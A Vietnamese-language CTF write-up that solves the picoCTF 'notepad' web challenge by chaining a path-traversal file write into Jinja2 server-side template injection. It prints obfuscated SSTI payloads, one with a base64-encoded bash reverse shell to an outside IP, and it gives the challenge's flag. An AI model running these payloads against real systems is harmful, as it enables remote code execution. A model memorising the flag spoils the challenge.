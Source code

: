 # Overview #
- Points : 100
- Tags : `Web Exploitation`
# Description #
This note-taking site seems a bit off.  https://notepad.mars.picoctf.net/

src: https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar
# Observe #
![image](https://github.com/Aowpu/CTF/assets/130723782/3a2a539d-fb32-400d-bae1-0a81b6b60bc5)
- Mã trên tạo một ứng dụng Flask cho phép bạn nhập nội dung và tạo ra các trang web tĩnh.
Nó kiểm tra nội dung đã nhập và sau đó tạo một tệp HTML tương ứng để hiển thị nội dung. 

![image](https://github.com/Aowpu/CTF/assets/130723782/65f6f399-7e9d-4921-9916-f6a246f869b7)
- Tệp index.html cho thấy thấy rằng nó sẽ hiện ra lỗi nếu có nên tôi đã thử cho error là 1 thứ gì đó bất kì
![image](https://github.com/Aowpu/CTF/assets/130723782/ab45f4b9-aee2-460f-aa8e-1e05ef4cced5)
![image](https://github.com/Aowpu/CTF/assets/130723782/5fea4dff-f48f-4915-821a-a6d5551bc0d7)
- Trong đoạn code trên có thể thấy nó đã tạo tệp name, tên của tệp là 128 kí tự đầu tiên của nội dung và mã thông báo ngẫu nhiên
- Có một điều rằng chúng ta có thể dựa trên url_fix(content[:128]) cho thấy khi tìm kiếm thì url_fix sẽ biến \ thành / mà ở trong
điều kiện không hề cấm điều này. Chúng ta có thể sử dụng điều này để duyệt qua hệ thống tập tin.
# Attack #
- Mình đã nghĩ đến lỗ hổng SSTI vì kiểm tra dữ liệu đầu vào ở đây không nghiêm ngặt
- Chúng ta có thể tạo mẫu lỗi của riêng mình bằng cách sử dụng kỹ thuật truyền tải đường dẫn để tạo một tệp trong thư templates/errors
  ![image](https://github.com/Aowpu/CTF/assets/130723782/079c3739-77c7-404a-93f5-052175a0da00)
- Sau khi gửi nó đã hiện ra not found bởi vì chúng ta đã ghi vào một tệp bên ngoài thư mục tĩnh nên không thể truy cập bằng /static/...
- Tuy nhiên, chúng ta có thể kiểm tra payload bằng cách chuyển tên tệp vào phần error
  ![image](https://github.com/Aowpu/CTF/assets/130723782/2754cf1e-4b42-4938-9797-780ad7e1056c)
- Payload đã được in lại
- Chúng ta có thể sử dụng SSTI(Sever-side template injection) để truy xuất cờ.
- Tôi đã tìm thấy bài viết trong hacktricks về cách khai thác lỗ hổng SSTI này ở bài Jinja2 SSTI và câu lệnh dùng để injection vào hệ thống
- "{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}"
- Sau khi đọc dòng lệnh trên tôi đã thay đổi 1 số chỗ để phù hợp với bài này, đoạn mã hóa base 64 ở câu lệnh trên tôi sẽ đổi nó bởi vì theo Dockerfile được cung cấp cho thấy tệp chứa cờ nằm trong thư mục gốc của UUID ngẫu nhiên.
Vì vậy chùng ta cần tìm tên file của lá cờ
- Chúng ta sẽ sửa đoạn base 64 thành "ls /app" sau đó mã hóa b64 bởi vì thứ chúng ta muốn echo bây giờ là file của lá cờ trong thư mục app
- Đoạn mã sẽ injection vào là
  " {% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n bHMgL2FwcA== | base64 -d | bash")["read"]() %} {{a}} {% endwith %} "
-  Vì tên tệp nó sẽ lấy 128 kí tự đầu do dùng câu lệnh url_fix(content[:128]) nên chúng ta sẽ chèn sao cho đủ 128 kí tự ở đầu cho đầy để không phần nào của injection được lưu vào tên của file
-  Sau khi gửi câu lệnh
-  ![image](https://github.com/Aowpu/CTF/assets/130723782/0fdd859f-12cc-41d9-b981-6eeaecfadcf7)
- Nó đã trả về tên tệp trên thanh tìm kiếm
- Thực hiện các bước chèn tên tệp vào sau error chúng ta đã tìm file chứa flag
     ![image](https://github.com/Aowpu/CTF/assets/130723782/af0cb711-02ec-47e7-a3ea-5cf0041a28b7)
- Sau đó chúng ta cat file đó ra bằng cách lại thay đoạn mã hóa base 64 trong câu lệnh injection trên bằng câu lệnh "cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt"
  và rồi thực hiện lại các bước trên để hiện ra flag
![image](https://github.com/Aowpu/CTF/assets/130723782/a7f7176d-a611-40da-ba31-2d1dcb7fbf91)
# Flag: picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n} #
